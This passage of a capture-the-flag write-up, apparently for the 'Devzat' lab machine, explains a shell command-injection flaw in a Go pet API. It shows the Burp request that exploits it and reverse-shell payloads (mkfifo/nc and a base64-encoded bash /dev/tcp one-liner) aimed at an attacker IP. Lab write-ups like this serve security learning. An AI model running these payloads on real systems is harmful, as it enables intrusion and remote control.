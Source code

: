 ```bash
+       }
+       return string(stdoutStderr)
+}
+
+func getPets(w http.ResponseWriter, r *http.Request) {
+       json.NewEncoder(w).Encode(Pets)
+}
+
+func addPet(w http.ResponseWriter, r *http.Request) {

```
Ok great, lets explain whats happening here. The page is intended to show the database of animals and print whatever you add. BUT, it has the vulnerable code in the characteristics field. Becuase it odes the following: `cmd := exec.Command("sh", "-c", "cat characteristics/"+species)`. A modified version of this could be `cmd := exec.Command("sh", "-c", "cat dog; pwd;/"+species)` This would just simply print the characteristics of the dog file, then print the working directory and then not know what to do with the +species at the end.
So my burprepeater request looks like this
```html
POST /api/pet HTTP/1.1
Host: pets.devzat.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pets.devzat.htb/
Content-Type: text/plain;charset=UTF-8
Origin: http://pets.devzat.htb
Content-Length: 16
Connection: close
{"name":"hello",
"species":"bluewhale; pwd"
}
```
And the respons would simply output:
```bash
{"name":"hello","species":"bluewhale","characteristics":"The mouth of the blue whale contains a row of plates that are fringed with 'baleen', which are similar to bristles. Also the tongue of the blue whale is as big as an elephant./home/patrick/pets"}]

```
![cat](https://i.imgur.com/sJPxw2D.png)
We have code execution!

# Inital foothold
Ok so by using pentestmonkeys reverseshell cheatsheet we try to achive a reverse shell. For some reason a normal reverse sell doesn't work.
```json
// Query
{"name":"hello","species":"gopher; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 7070 >/tmp/f"}
// Reply
{"name":"hello","species":"gopher; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2\u003e\u00261|nc 10.10.10.10 7070 \u003e/tmp/f","characteristics":"exit status 127"}]

```
So lets simply base 64 encode it and try it again.
```bash
┌──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ echo "bash -i >& /dev/tcp/10.10.10.10/7070 0>&1" | base64                                                                                                                                     
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC83MDcwIDA+JjEK
                                                                                                                                                                                                                    
```